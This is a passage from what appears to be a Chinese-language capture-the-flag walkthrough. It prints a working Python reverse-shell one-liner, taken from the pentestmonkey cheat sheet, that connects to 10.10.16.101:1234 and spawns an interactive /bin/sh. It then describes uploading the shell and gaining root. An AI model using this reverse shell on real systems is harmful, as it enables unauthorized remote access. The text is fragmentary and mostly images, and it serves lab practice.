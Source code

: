 pentestmonkey.net](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.101",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](img/1210868200d8fbf0ccc5ebdc3e290109.png)

让我们上传 shell i 并等待一段时间来获得 revers shell。

![](img/d966a1d9b309a59a0a5b9b748edd11f5.png)

拥有根

```
$crontab -l
```

![](img/9ef81d3da177d224741d5168536b3e46.png)
